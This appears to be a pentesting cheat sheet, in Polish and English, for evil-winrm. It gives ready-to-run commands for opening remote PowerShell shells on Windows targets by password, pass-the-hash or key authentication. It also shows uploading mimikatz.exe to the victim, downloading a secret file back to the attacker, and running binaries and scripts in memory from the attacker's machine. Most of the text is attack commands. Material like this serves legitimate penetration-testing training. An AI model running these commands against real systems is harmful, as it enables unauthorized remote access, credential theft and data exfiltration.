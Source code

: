 # Windows Remote Management shell for pentesting.
Wykorzystuje WinRM do utworzenia shella

```bash
evil-winrm -i <target-ip> -u username -p password

# -P: Specifify port
evil-winrm -i <target-ip> -P 5986 -u username -p password

# Pass The Hash (-H)
evil-winrm -i <target-ip> -P 5986 -u username -H 0e0363213e37b94221497260b0bcb4fc

# PowerShell Local Path (-s)
evil-winrm -i <target-ip> -u username -p password -s /opt/scripts

# SSL enabled (-S)
evil-winrm -i <target-ip> -u username -p password -S
```
If you have private key and public key, you can use them for authentication.

```sh
# -S: SSL
# -k: private key
# -c: public key
evil-winrm -i <target-ip> -S -k private.key -c public.key
```

https://exploit-notes.hdks.org/exploit/windows/protocol/winrm-pentesting/

|                 |                                         |
| --------------- | --------------------------------------- |
| `-i <IP>`       | IP hosta                                |
| `-P <port>`     | port (można pominąć, wybierze domyślny) |
| `-u ... -p ...` | login i hasło użytkownika               |

# Pass-the-hash
```bash
# Pass The Hash (-H)
evil-winrm -i <target-ip> -P 5986 -u username -H 0e0363213e37b94221497260b0bcb4fc
```

# File transfer
```powershell
$ evil-winrm -u username -p 'passwd' -i host
(*evil-winrm*) PS> upload /opt/Windows/exploits/executables/mimikatz.exe C:\temp\mimikatz.exe
(*evil-winrm*) PS> download C:\temp\supersecret.txt /opt/Juggernaut/JUGG-Backup/supersecret.txt
```

# Executing Files and Scripts Directly from Attacker (NO TRANSFER NEEDED)
https://juggernaut-sec.com/windows-file-transfers-for-hackers/#Downloading_Files_onto_the_Victim_Using_evil-winrm

To execute binaries from our attacker machine we need to use evil-winrm’s custom built-in **Invoke-Binary** function.

```powershell
$ evil-winrm -u backup_svc -p 'Makemoney1!' -i 172.16.1.10 -e /usr/share/windows-resources -s /usr/share/windows-resources
$ bash>evil-winrm -u ...
# nawiązanie połączenia z ofiaą za pomocą evil-winrm
PS> menu
PS> Invoke-Binary /usr/share/windows-resources
```
* Not all of these binaries will work with evil-winrm, since it only allows .Net assemblies (executables compiles from C#) to be executed in memory.
* To load PS1 scripts into the evil-winrm session is as simple as just executing any script by name. Since the **-s** switch points to our scripts directory, we can double tab to see all of our PS1 scripts available.
